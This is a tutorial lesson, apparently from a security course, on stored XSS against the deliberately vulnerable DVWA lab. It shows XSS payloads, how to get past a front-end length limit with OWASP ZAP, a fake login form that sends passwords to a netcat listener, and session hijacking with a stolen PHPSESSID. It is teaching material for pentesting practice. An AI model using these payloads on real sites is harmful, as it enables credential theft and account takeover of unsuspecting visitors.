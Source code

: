 In this lesson, let’s take a look at manual stored attacks, by going to the XSS (Stored) tab in the DVWA.

We can see a guestbook where we can leave comments, similar to a product review page, news feed, discussion forums, or something to that effect, where you can expect different users to visit this page. So the goal would be to leave a stored XSS payload so that every time the page loads, the user’s information is sent to our servers, for example.

# Testing the form
Let’s start out with a simple test to see how the form works.:
> Test

> Hello, this is a test comment from Christophe to see…

There’s a character limit preventing me from writing more. That could definitely be a challenge for our XSS payloads since it limits how many characters we can enter. 

With that said, and you’ll already know this if you’ve taken courses from me before, but just because there is a character limit imposed by the front-end does not mean there’s a character limit imposed by the back-end.

What I mean is that the character limit could just be some front-end JavaScript or HTML code checking how many characters have been entered. But if we bypass this front-end and send a request directly to the back-end server, we could potentially bypass this limitation.

An alternative to this would be to try and use tiny XSS payloads. Here’s handy cheat sheet: [https://github.com/terjanq/Tiny-XSS-Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)

Before we test that out, let’s do a quick check on the basics to verify vulnerability. We’re on the security level of low right now, so the script tags probably won’t work. Let’s use an SVG tag instead:

`<svg onload=alert(1)>`

Awesome, that worked. Now if we navigate away from this page and come back, unlike with the reflective XSS, the persistent XSS makes it so that it’s now permanently stored on the server and displayed on this page until someone cleans it up!

But again, this payload is next to useless outside of finding a vulnerability. Let’s see if we can’t do something more interesting.

# Using OWASP ZAP
OK, let’s clear the guestbook so that we don’t get the annoying pop-up every time, and let’s pull up OWASP ZAP. OWASP ZAP, if you’re not familiar, is a free and open-source penetration testing tool being maintained under the umbrella of OWASP.

We’re going to use it in this lesson as a proxy which stands between our browser and the web application, so that we can intercept and inspect messages sent between the browser and that web application. That allows us to modify requests going back and forth, which will be perfect for this scenario since it will allow us to bypass front-end security controls and communicate directly with the back-end.

1. Open ZAP
2. Don’t persist session (unless you want to)
3. Open FireFox browser (if you can’t get the browser to open, [try this fix](https://cybr.com/forums/discussion/browser-does-not-popping-out/))
4. Login to DVWA (127.0.0.1) and navigate to the XSS (Stored) page
5. Set a breakpoint
6. Submit a test comment
7. Open/Resend with Request Editor
8. Change the `mtxMessage=` to your payload of choice, like:

`<IMG SRC=# onmouseover="alert('xxs')">`

So it will look like:
`txtName=fkgfjdg&mtxMessage=<IMG SRC=# onmouseover="alert('xxs')">&btnSign=Sign+Guestbook`

Great, that worked! Now, let’s do something we haven’t done yet.

# Creating a fake login form
Instead of trying to send cookie information to our remote server, let’s try to get the actual username and password from the user. One way to do that is by tricking the user with a fake login form. Since we know this form is vulnerable, we can try to inject all kinds of tags. Up until this point, we’ve used script tags, image tags, and svg tags. Now, let’s create a fake form.

For the form action, we’ll point to our remote server, so that the username and password are sent in plain text to our netcat listener.

```<h3>Please login to see</h3> <form action=http://127.0.0.1:4444>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>```

Start your netcat listener:

`nc -lvp 4444`

Submit the request through ZAP.

When the visitor comes to the page, they see a login form that tells them they need to log in if they want to see the comments. They submit their information, and that form opens a connection to our URL, and if we look at our netcat listener, we’ll see the username and password in plain text, and we get their cookie information!

Again, unlike with the reflected attack, now any time a user visits this page, they’ll see the login form, even without having to click on a crafted URL. Unsuspecting visitors will just assume they have to login again in order to see the comments, product details, or whatever it is that’s supposed to be on this page.

That’s what makes stored/persistent XSS attacks so scary. Yes, they’re usually harder to find and pull off, but when they are successfully exploited, they can do far more damage to a greater number of people.

# Bonus: Steal session information to login
Let’s do one more thing before we move on to the next lesson. Let’s use this PHPSESSID information to login as this user. Of course, technically, since we have their username and password, we should be able to login as them and therefore we don’t have to steal their session, but let’s pretend like we don’t have that.

Open up a different browser window. Navigate to the DVWA. It should ask you to login, since you haven’t established a session in that browser.

Open your DevTools with F12. Go to the Storage tab. Edit the PHPSESSID to be what we just copied.

Now navigate to [http://localhost](http://localhost) or another page that’s supposed to be private, and you won’t be asked to login. That’s because, as far as the application knows, we are now logged in as the other user without even needing to enter a username or password.

Feel free to play around with more persisted attacks to see what all you can do! Then, mark this lesson as complete and move on to the next.
